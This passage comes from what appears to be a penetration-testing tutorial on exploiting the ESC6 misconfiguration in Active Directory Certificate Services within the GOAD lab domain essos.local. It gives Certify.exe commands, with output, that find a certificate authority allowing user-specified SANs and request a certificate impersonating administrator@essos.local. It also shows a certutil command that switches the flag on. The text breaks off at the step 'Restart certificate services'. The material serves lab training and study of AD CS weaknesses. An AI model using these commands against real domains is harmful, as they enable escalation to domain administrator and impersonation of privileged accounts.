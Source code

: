 ### Exploitation

**Note:** Since the Microsoft hardening released in KB5014754 (May 10, 2022), certificates issued via a CA that still has EDITF_ATTRIBUTESUBJECTALTNAME2 enabled must contain the new SID security extension or rely on weak mapping modes; otherwise logon is refused. ESC6 exploitation therefore commonly requires ESC9 or ESC10 conditions as well.

Find CAs with EDITF_ATTRIBUTESUBJECTALTNAME2 flag set:

```bash
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :
[!] Certificate Authority has EDITF_ATTRIBUTESUBJECTALTNAME2 flag set!

    Enterprise CA Name            : ESSOS-CA
    DNS Hostname                  : braavos.essos.local
    FullName                      : braavos.essos.local\ESSOS-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=ESSOS-CA, DC=essos, DC=local
    UserSpecifiedSAN              : Enabled (ESC6)
```

Request certificate with arbitrary SAN using any template:

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /altname:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : User
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 13
```

Even though template doesn't allow subject specification,
ESC6 allows it through the CA configuration

### Enabling the Flag (if you have CA admin rights). Enable the dangerous flag on GOAD CA:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

CertUtil: -setreg command completed successfully.
```

Restart certificate services:
